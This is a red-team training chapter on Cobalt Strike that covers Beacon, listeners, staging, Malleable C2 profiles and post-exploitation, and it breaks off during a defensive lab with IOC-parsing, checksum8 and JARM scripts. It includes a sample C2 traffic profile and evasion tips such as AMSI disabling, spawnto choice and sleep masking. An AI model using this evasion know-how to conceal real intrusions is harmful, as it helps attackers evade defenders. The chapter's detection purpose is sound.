







This is Chapter 3 of the Red Team Operations notebook. The previous chapter built the *conceptual* model of command and control — agents, team servers, the beaconing rhythm, channel protocols, redirectors, and Malleable traffic shaping — deliberately framework-agnostic. This chapter grounds all of that in the single most consequential C2 platform in the industry: **Cobalt Strike**. Where Chapter 2 asked "what is a beacon?", this chapter asks "what is *Beacon* — capital B, the specific implant Raphael Mudge designed — how do its listeners, profiles, and post-exploitation jobs actually work, and how does a modern SOC catch it?"

A framing note that governs this entire chapter, even more strongly than the rest of the notebook. Cobalt Strike is **commercial, licensed software** sold by Fortra (formerly HelpSystems) exclusively to vetted organizations for authorized adversary simulation. It is also, simultaneously, the most heavily *abused* offensive tool in real-world intrusions — cracked and leaked copies have been used in a large share of human-operated ransomware and espionage campaigns for years. That dual reality is exactly why a security engineer must understand it deeply. Nothing in this chapter is a walkthrough for pirating, deploying, or operating Cobalt Strike against systems you are not explicitly authorized to test. There are **no cracked-software instructions, no working malware, and no live C2 payloads here.** Every hands-on step is defensive and analytical: reading a profile, computing a fingerprint, recognizing an indicator. The offensive mechanics are taught at a capability and architecture level — enough to emulate the threat intellectually and, far more importantly, to *detect and defeat it*. If you operate it, do so only under a signed engagement with a legitimate license; if you defend, this chapter is written for you first.

We build from the platform's architecture (team server, client, Aggressor scripting), through the Beacon implant and its check-in model, listeners and payload staging, the Malleable C2 profile language in real depth, peer-to-peer pivoting and the post-exploitation toolset, a benign hands-on lab on fingerprinting and profile analysis, a large consolidated Detection & Defense section, real-world abuse cases and pitfalls, and a cheat sheet with training resources that let you practice on legitimately licensed or open-source stand-ins.

## Why This Matters

Cobalt Strike occupies a strange and important position. For a red teamer, it is the reference implementation of nearly every C2 concept: its Malleable profile language basically *defined* the modern idea that C2 traffic and implant memory should be attacker-configurable. For a defender, it is the single highest-value detection target in existence — if your controls reliably catch default and lightly-customized Cobalt Strike, you have coincidentally built detections that catch a large fraction of real ransomware crews, because so many of them use it (or clones that inherit its behaviors). For a threat-intel analyst, Cobalt Strike team servers are trackable infrastructure: for years, scanners like Shodan and research projects have enumerated live team servers on the internet by their TLS and staging fingerprints.

So this chapter earns its keep three ways. Offensively, it teaches the tool the industry actually benchmarks against, at a depth that lets you reason about OPSEC (why a default profile is suicide, what a listener leaks, why sleep-mask matters). Defensively, it turns "we should detect Cobalt Strike" into a concrete list of network, host, and memory signatures with the exact mechanism behind each. And analytically, it connects to a huge body of public research — Malleable profile repositories, JARM databases, the leaked Beacon source, and countless disclosed intrusion reports — that you can study without ever touching a live implant.

## Part 1: The Platform Architecture — Team Server, Client, and Beacon

Cobalt Strike is not a single binary. It is a **client-server** platform with three moving parts, and understanding the split is the key to understanding both how operators use it and where it can be seen.

The **team server** is the C2 back-end. It is a headless Java process (`teamserver`) started on a Linux host that operators control. It listens for two very different kinds of connections: inbound **Beacon** traffic from implants on victim networks (over whatever listeners you configure), and inbound **operator** connections from the GUI clients. It holds all engagement state — active Beacons, downloaded files, credentials, keystroke logs, screenshots — and it is the thing that actually parses your Malleable C2 profile and speaks the resulting protocol to implants. One team server per engagement (or per redirector tier) is typical.

The **client** is the Java Swing GUI (`cobaltstrike` / `agscript` for headless). Multiple operators connect their clients to one team server simultaneously, which is the whole point of the name — it is a *team* server enabling collaborative operations. Operators see a shared view of compromised hosts (the "targets" table and the "Beacons" table), a shared event log, and a shared session pool. The client talks to the team server over an authenticated, TLS-wrapped protocol on **TCP 50050** by default, using a shared password set at team-server startup.

**Beacon** is the payload — the implant that runs on the victim. It is the star of the platform and the subject of most of this chapter. Beacon is a small, position-independent reflective DLL that runs inside a host process, checks in to the team server on a schedule, and executes tasks. There is also an **SSH** session type (for pivoting to Linux/network devices) and older **staged shells**, but Beacon is what people mean when they say "a Cobalt Strike session."



**Aggressor Script** is the fourth thing worth naming. It is Cobalt Strike's scripting engine (a Sleep-language dialect) that lets operators automate the client, add menus, define new Beacon commands, react to events, and — critically for OPSEC — hook and modify behavior. Much of the "make Cobalt Strike less detectable" ecosystem lives in Aggressor scripts and in Malleable profiles.

**Blue team relevance:** the architecture tells you where the observable seams are. You will almost never see the team↔client 50050 traffic (it is on attacker infrastructure). What crosses into the enterprise is **Beacon ↔ redirector** traffic and the **on-host** Beacon behavior. Those two surfaces — network egress and host/memory — are where essentially all detection happens, and the rest of this chapter is organized around them.

## Part 2: Beacon — the Implant and Its Check-In Model

Beacon is an **asynchronous** implant. This one design choice drives its entire network fingerprint and most of its detections.

Asynchronous means Beacon does not hold an open interactive connection. Instead it *sleeps* for a configured interval, then wakes, makes a request to the C2 to ask "do you have any tasks for me?", executes whatever it receives, posts results back, and goes back to sleep. The operator's commands are queued on the team server and delivered on the next check-in. If sleep is 60 seconds, a typed command may take up to a minute to run. Operators trade interactivity for stealth: a host that phones home once a minute looks far less like a live shell than one holding a persistent socket.

Two parameters govern the rhythm, set with the `sleep` command:

- **Sleep time** — base interval between check-ins (e.g., 60s, or 3600s for a low-and-slow implant).
- **Jitter** — a percentage (0–99) that randomizes each interval so check-ins are not perfectly periodic. `sleep 60 37` means "sleep 60 seconds ± up to 37%", so actual intervals fall roughly between 38s and 60s.



**Interactive mode** exists too: `sleep 0` puts Beacon into a fast, near-real-time loop for interactive work (running a shell, SOCKS proxying). This is loud — a constant sub-second beat is trivially obvious in NetFlow — so disciplined operators only drop to `sleep 0` briefly when they need interactivity, then raise sleep again.

The **check-in transport** depends on the listener (Part 3). Over HTTP/S, the "ask for tasks" is typically a GET and the "return results" is a POST, but Malleable profiles can reshape both almost arbitrarily. The **data itself is encrypted** — Beacon and team server share keys derived at payload-generation time (an RSA public key baked into the payload, AES for session data), so even over plain HTTP the task/result bodies are not plaintext. This matters for detection: you rarely catch Beacon by reading its payload contents on the wire; you catch it by the *shape, timing, and metadata* of the traffic, or on the host.

**Red team relevance:** picking sleep/jitter is an OPSEC decision, not a convenience one. A 5-second sleep during "working hours" of a defender's SOC is how operators get burned by beacon-analysis tools like RITA. Mature operators run long sleeps (minutes to hours), tighten only when actively working a host, and lean on the sleep-mask (Part 8) so the sleeping implant is not sitting decrypted in memory the whole time.

**Blue team relevance:** the asynchronous, jittered check-in is *also* the detection. Regularity survives jitter statistically — beacon-analysis looks at the distribution of inter-arrival times to a destination and flags the tell-tale clustering even at 37% jitter. We return to this in Part 10.

## Part 3: Listeners and Payloads — HTTP/S, DNS, SMB, TCP

A **listener** is a named C2 endpoint configuration on the team server. It ties together a protocol, the host/port Beacon should talk to, and (for HTTP/S) the redirector-facing settings. When you generate a payload, you generate it *for a listener*. There are two broad families.

**Egress listeners** speak out of the victim network to your infrastructure:

- **HTTP** and **HTTPS** — the workhorses. Beacon makes web requests to your redirector on 80/443. HTTPS adds TLS, which both hides the body from casual inspection and, ironically, *adds* a fingerprint surface (the TLS handshake, JA3/JARM — Part 9).
- **DNS** — Beacon tunnels over DNS queries/responses to a domain whose NS records point at your team server. Extremely stealthy for egress in locked-down networks that allow DNS but not much else; extremely slow, and increasingly well-detected via DNS analytics (high query volume, long labels, high entropy subdomains).

**Peer-to-peer (P2P) listeners** connect Beacons to *each other* inside the victim network, so only one host needs egress:

- **SMB** — Beacon-to-Beacon over a **named pipe** (`\\.\pipe\<name>`). A parent Beacon with egress relays for child Beacons that only speak SMB. Great for pivoting to hosts that cannot reach the internet.
- **TCP** — Beacon-to-Beacon over a raw TCP port on the internal network. Similar idea, different transport.



### Staged vs Stageless

Independently of protocol, a payload is either **staged** or **stageless**:

- **Staged**: a tiny first-stage **stager** runs on the victim, connects back, and downloads the full Beacon **stage** into memory, then executes it. The stager is small (fits in shellcode-sized spaces), but the download step is a giant detection opportunity — the classic Cobalt Strike **stager URI** (historically things like `/aaa9`, computed by a checksum8 algorithm) and the served stage have well-known signatures. Metasploit-style `windows/beacon_http/reverse_http` stagers are heavily signatured.
- **Stageless** (a.k.a. "full" payloads): the entire Beacon is embedded in the initial artifact — no download step, no stager URI to catch. Larger initial payload, but far fewer network tells. Modern operators almost always prefer stageless.

| Property | Staged | Stageless |
|---|---|---|
| Initial artifact size | Tiny (hundreds of bytes) | Large (whole Beacon, ~200KB+) |
| Extra network fetch | Yes — downloads the stage | No |
| Network signature surface | High (stager URI + served stage) | Lower |
| Fits in size-constrained loaders | Yes | Often no |
| OPSEC preference (modern) | Rare, avoid | Default choice |
| Classic default artifact | checksum8 URIs (e.g. `/aaa9`) | n/a |

**Blue team relevance:** the checksum8 stager URIs are a gift. Beacon's HTTP stager historically requests a 4-character URI whose bytes sum (mod 256) to **92** for x86 or **93** for x64 — a property you can compute and hunt for in proxy logs. Many detections and Suricata/Snort rules key on exactly this. Stageless payloads defeat that specific hunt, which is why the industry moved to them — and why memory and TLS detection (Part 9) matter more now than URI hunting.

**Artifacts** are how a payload actually lands on disk or in memory: `artifact.exe`, `artifact.dll`, service EXEs, `beacon.bin` raw shellcode for your own loader, PowerShell one-liners, HTA, and so on, generated through the **Artifact Kit** and **Applet Kit**. Default artifacts are the *most* signatured objects in the entire security industry; every EDR vendor ships bytes for them. Serious operators never use default artifacts — they use custom loaders — which is itself a useful defender assumption (default-artifact detections catch the unsophisticated; you still need behavioral/memory detection for the rest).

## Part 4: Generating and Delivering Beacon (Capability Level)

At a capability level — not a copy-paste deployment guide — here is the operator workflow, because you cannot reason about detection without knowing the sequence.

1. **Start the team server** with a Malleable C2 profile and a password. Conceptually: `./teamserver <ext-ip> <password> <profile.profile>`. The profile is chosen *before* the server starts and shapes everything downstream. The team server prints a **SHA-256 hash of its TLS certificate** on startup — operators are meant to verify it client-side to prevent MITM.
2. **Define listeners** in the client (HTTP/S with redirector hostnames, DNS with the delegated domain, SMB/TCP for P2P).
3. **Generate a payload** for a listener: stageless raw shellcode, an EXE/DLL, a PowerShell command, etc.
4. **Deliver** it via the initial-access method (phishing maldoc, exploited service, drive-by) — out of scope here; this chapter is about the C2 layer, not initial access.
5. **Beacon checks in**, appears in the client, and the operator runs post-exploitation jobs (Part 6).

The two OPSEC-critical choices in that flow are the **profile** (Part 5) and the **loader/artifact** (Part 3). Both are where the difference between "instantly caught" and "quiet for weeks" is decided, and both are what defenders reverse-engineer from captured samples.

**A note on licensing and cracked builds.** Legitimate team servers are watermarked; each licensed copy embeds a **watermark** (a numeric value) that appears in generated Beacon payloads and can be extracted by config parsers. Threat intel uses watermarks to cluster infrastructure and to distinguish leaked/cracked builds (which often share a small set of known watermarks) from licensed operators. This is a purely defensive/attribution use — recognizing which watermark a captured Beacon carries.

## Part 5: Malleable C2 Profiles — Shaping Beacon in Depth

The Malleable C2 profile is Cobalt Strike's defining feature and the single most important thing to understand for both offense and defense. A profile is a text file that tells the team server exactly how Beacon should format its network traffic and, in later versions, how the implant should behave in memory. If Chapter 2 introduced "traffic profiles" as a concept, this is the concrete language.

### 5.1 What a profile controls

A profile has two big jobs:

1. **Traffic shaping** — make Beacon's HTTP/S (or DNS) traffic mimic something benign: a specific web app, a software-update check, a CDN, an analytics beacon. It controls URIs, headers, User-Agent, cookies, how the encrypted task data is encoded and where it is hidden (in a header, a cookie, the body, base64/netbios/mask transforms), and the fake server response.
2. **Post-exploitation & memory behavior** — `process-inject`, `stage`, and `post-ex` blocks control how Beacon injects, what its in-memory content and allocation look like, the spawn-to process for post-ex jobs, and (with the sleep-mask / `evasion` options) whether the sleeping implant is masked.

### 5.2 Anatomy of a profile

A minimal HTTP profile skeleton looks like this (annotated, benign example for study):

```
# Global options
set sleeptime "60000";      # 60s base sleep (ms)
set jitter    "37";         # +/- 37%
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ... Chrome/120.0";

# How the fake C2 server (or redirector) responds; how data is transformed
http-get {
    set uri "/api/v2/telemetry /gtm.js";   # URIs Beacon requests
    client {
        header "Accept" "application/json, text/plain, */*";
        header "Host" "cdn.example-analytics.com";
        metadata {
            base64url;
            prepend "session=";
            header "Cookie";        # hide encrypted metadata in a Cookie
        }
    }
    server {
        header "Server" "nginx";
        header "Content-Type" "application/javascript; charset=utf-8";
        output {
            base64;
            print;                  # return tasks in the response body
        }
    }
}

http-post {
    set uri "/submit /gtm/collect";
    client {
        header "Content-Type" "application/octet-stream";
        id { parameter "id"; }      # Beacon session id location
        output { base64url; print; }
    }
    server {
        output { base64; print; }
    }
}
```

Every line here is a fingerprint knob. The `metadata` block says *where the encrypted Beacon metadata is smuggled* (here, a `Cookie: session=<base64url>` header). The `http-get.server.output` block defines the fake response. A defender who obtains this profile knows exactly what to look for; an operator who ships the **default** profile is broadcasting a globally-known signature.

### 5.3 The infamous defaults

Out of the box, older Cobalt Strike shipped defaults that are burned into every IDS/EDR on earth:

| Default artifact | Value | Why it burns you |
|---|---|---|
| Default User-Agent | An old fixed IE/Mozilla string | Static UA across all traffic |
| Default GET URI | `/ca`, `/dpixel`, `/__utm.gif`, `/pixel.gif` etc. | Enumerable, signatured |
| Default POST URI | `/submit.php` | Signatured |
| Default named pipe | `msagent_##`, `MSSE-###-server`, `postex_####` | Host detection (Part 9) |
| Default spawnto | `rundll32.exe` (no args) | Suspicious parent/child, no-arg rundll32 |
| Default JARM (older) | Known team-server JARM hashes | Internet-wide scanning |
| Default cert | The self-signed CS cert (`C=Earth, ...`) | TLS fingerprint |

The default self-signed TLS certificate historically carried the literally-recognizable subject values (the notorious `C=Earth, ST=Cyberspace, L=Somewhere, O=cobaltstrike` lineage in older training material and derivatives), and default team servers answered on 50050 — combine those and you can *scan the internet for team servers*, which is exactly what researchers and Shodan have done for years.

### 5.4 Profile-driven memory indicators

Later Cobalt Strike versions extended Malleable C2 into memory. Key blocks:

- **`stage`** — controls how the Beacon DLL sits in memory: `set userwx "false";` (avoid RWX pages — a huge EDR tell), `set stomppe`, `set obfuscate`, `set cleanup`, module stomping options, and `set sleep_mask "true";`.
- **`process-inject`** — how Beacon injects into other processes: allocation API (`VirtualAllocEx` vs `NtMapViewOfSection`), `min_alloc`, `startrwx`/`userwx` (start pages RW then flip to RX, never RWX), and the injection technique.
- **`post-ex`** — post-exploitation job behavior: `set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";` to choose a believable sacrificial process, `set obfuscate "true";`, `set smartinject`, `set amsi_disable "true";` (patch AMSI in the post-ex process), `set pipename` for post-ex named pipes.

**Red team relevance:** a competent profile sets `userwx false` (no RWX memory), a believable `spawnto`, sleep-mask on, non-default pipe names, and traffic that mimics a real app the target actually uses. A profile is judged by how few of the Part 9 indicators it leaves.

**Blue team relevance:** because profiles are *text* and are widely shared (public repositories of "realistic" profiles exist), defenders can and do build detections from the very profiles operators borrow. If a public profile mimics a specific SaaS's telemetry endpoint, that exact pattern in *your* network — from a host that does not use that SaaS — is a lead.

## Part 6: Post-Exploitation Toolset and Pivoting

Once a Beacon is live, the operator has a broad post-exploitation toolset. You do not need to memorize the command list, but the *categories* map directly to host telemetry, so a defender should know them.

- **Situational awareness**: `whoami`, `net` commands, `ps`, `ls`, `getuid`, `net view`. Often run through a `bof` (Beacon Object File — small compiled C run in-process without spawning a new process, a major OPSEC improvement over the older fork-and-run model).
- **Token & credential ops**: `steal_token`, `make_token`, `pth` (pass-the-hash), `mimikatz`/`logonpasswords` (invokes Mimikatz in memory), `dcsync`. These are the loud, high-value actions defenders most want to catch (LSASS access, DCSync replication traffic).
- **Lateral movement**: `jump` (psexec, psexec_psh, winrm) and `remote-exec` — spawn a new Beacon on a remote host, often as an **SMB P2P** child so it inherits egress through the parent.
- **Pivoting / tunneling**: `socks` (start a SOCKS proxy so the operator's tools reach the internal network through Beacon), `rportfwd` (reverse port forward), and the `covertvpn`/`socks` family.
- **Execution model**: **fork-and-run** (spawn a sacrificial `spawnto` process, inject a post-ex DLL, run, exit) versus **inline BOFs** (run inside the Beacon process, no new process). Fork-and-run creates the classic *sacrificial process with injected memory* pattern EDR loves; BOFs are quieter but limited to what a small object file can do.



**Blue team relevance:** each row above is a telemetry goldmine. `spawnto` fork-and-run → a benign-looking process (`dllhost.exe`, `gpupdate.exe`) with an unusual parent, network activity, and injected RX memory. `jump psexec` → service creation (7045) and remote named-pipe. `logonpasswords` → handle to `lsass.exe` with suspicious access rights. `dcsync` → `DRSGetNCChanges` replication from a non-DC. You detect Cobalt Strike post-ex not by its name but by these behaviors, most of which are framework-independent — which is the whole reason these detections generalize to other C2.

## Part 7: Hands-On Lab — Analyzing Beacon Indicators the Benign Way

This lab is entirely defensive and reproducible without any Cobalt Strike license, cracked build, or live implant. You will (a) parse a Malleable C2 profile to enumerate its network indicators, (b) compute the checksum8 property of stager URIs, and (c) compute a JARM fingerprint against a benign public host to understand how team-server scanning works. Everything runs on Kali or any Linux with Python.

### 7.1 Tooling from scratch

Two tools appear here; both are open-source and benign.

**`jarm`** — Salesforce's active TLS server fingerprinting tool. It sends 10 crafted TLS Client Hellos with varied ciphers/extensions/versions and hashes how the server responds, producing a 62-character **JARM** fingerprint. Because a Cobalt Strike team server's Java TLS stack responds in a characteristic way, default team servers historically shared JARM hashes, making internet-wide discovery possible. Install:

```bash
# JARM (defensive TLS fingerprinting)
git clone https://github.com/salesforce/jarm.git
cd jarm
python3 jarm.py --help
```

**A Malleable profile parser** — we will use a tiny Python script (below) rather than any offensive tooling. Nothing about reading a text profile requires the product.

### 7.2 Step 1 — enumerate a profile's network IOCs

Given a profile file `study.profile` (the annotated example from Part 5, saved to disk), extract the observable indicators a SOC could hunt for:

```bash
cat > extract_iocs.py <<'PY'
import re, sys
txt = open(sys.argv[1]).read()

def grab(pat):
    return re.findall(pat, txt)

print("== User-Agent ==")
print(grab(r'set useragent\s+"([^"]+)"'))
print("== URIs ==")
print(grab(r'set uri\s+"([^"]+)"'))
print("== Host headers ==")
print(grab(r'header\s+"Host"\s+"([^"]+)"'))
print("== Cookie/metadata hints ==")
print(grab(r'header\s+"(Cookie|Authorization)"'))
print("== spawnto ==")
print(grab(r'set spawnto\w*\s+"([^"]+)"'))
print("== pipename ==")
print(grab(r'set pipename\w*\s+"([^"]+)"'))
print("== sleeptime/jitter ==")
print(grab(r'set (?:sleeptime|jitter)\s+"([^"]+)"'))
PY
python3 extract_iocs.py study.profile
```

Realistic output:

```
== User-Agent ==
['Mozilla/5.0 (Windows NT 10.0; Win64; x64) ... Chrome/120.0']
== URIs ==
['/api/v2/telemetry /gtm.js', '/submit /gtm/collect']
== Host headers ==
['cdn.example-analytics.com']
== Cookie/metadata hints ==
['Cookie']
== spawnto ==
[]
== sleeptime/jitter ==
['60000', '37']
```

Now you have a hunt: proxy logs showing GETs to `/api/v2/telemetry` or `/gtm.js` with `Host: cdn.example-analytics.com` and a `Cookie: session=<base64url>` from hosts that have no business talking to that CDN, on a ~38–60s cadence. That is a network detection built entirely from reading text.

### 7.3 Step 2 — the checksum8 stager URI property

Classic HTTP **staged** Beacon requests a 4-character URI whose ASCII bytes sum to 92 (mod 256) for x86 or 93 for x64. You can *recognize* such URIs in logs. This checks whether a captured URI matches the property (detection use), not generate live payloads:

```bash
cat > checksum8.py <<'PY'
import sys
def valid(uri, arch):
    u = uri.strip("/")
    if len(u) != 4: return False
    target = 92 if arch == "x86" else 93
    return sum(ord(c) for c in u) % 256 == target

for uri in ["/aaa9", "/dpixel", "/ab12", "/ca"]:
    print(uri, "x86:", valid(uri,"x86"), "x64:", valid(uri,"x64"))
PY
python3 checksum8.py
```

Realistic output:

```
/aaa9 x86: True x64: False
/dpixel x86: False x64: False
/ab12 x86: False x64: False
/ca x86: False x64: False
```

`/aaa9` sums to `97*3 + 57 = 348`, `348 % 256 = 92` → matches the x86 stager property. In a proxy-log hunt you would flag any 4-char URI meeting the x86/x64 checksum, especially followed by a large binary download — the hallmark of a staged Beacon fetch. (Stageless payloads evade this, which is why it is a supporting signal, not a sole detection.)

### 7.4 Step 3 — JARM against a benign host

Run JARM against a public site you are authorized to fingerprint (e.g. your own server) to see how server-side TLS fingerprinting works:

```bash
python3 jarm.py example.com
# Example output:
# Domain: example.com
# Resolved IP: 93.184.216.34
# JARM: 27d3ed3ed0003 ...  (62 hex chars)
```

